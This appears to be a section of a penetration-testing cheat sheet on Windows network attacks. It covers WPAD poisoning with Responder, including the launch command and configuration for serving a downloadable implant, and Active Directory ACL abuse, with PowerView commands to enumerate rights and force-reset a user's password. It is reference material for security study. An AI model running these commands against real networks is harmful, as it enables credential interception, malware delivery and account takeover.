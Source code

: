 
### WPAD
Many browsers use Web Proxy Auto-Discovery (WPAD) to load proxy settings from the network, download the wpad.dat, Proxy Auto-Config (PAC) file.

A WPAD server provides client proxy settings via a particular URL:
- http://wpad.example.org/wpad.dat

--> When a machine has these protocols enabled, if the local network DNS is not able to resolve the name, the machine will ask to all hosts of the network.  

Using Responder we can poison DNS, DHCP, LLMNR and NBT-NS traffic to redirect clients to a malicious WPAD Server.
```
responder -I eth0 -wFb
```

--> Backdooring using Responder and WPAD attack
Modify Responder configuration file
```
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On
```

--> Create a specific web page for error or use the default one.  

--> Create an implant to be downloaded by the client. By default the error message indicate this URL : ```http://isaProxysrv/ProxyClient.exe```  

--> Patch by Microsoft (MS16-077): Location of WPAD file is no longer requested via broadcast protocols bnut only via DNS.

### WSUS

### ACL / DACL Exploitation
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#forcechangepassword

#####  ForceChangePassword
- https://docs.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password
If we have *ExtendedRight* on *User-Force-Change-Password* object type, we can reset the user's password without knowing their current password.  

Returns the ACLs associated with jdoe user in DOMAIN.local domain and resolve GUIDs to their display names
```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "DOMAIN.local\jdoe"}

```

```
. .\PowerView.ps1
Set-DomainUserPassword -Identity User -Verbose
```
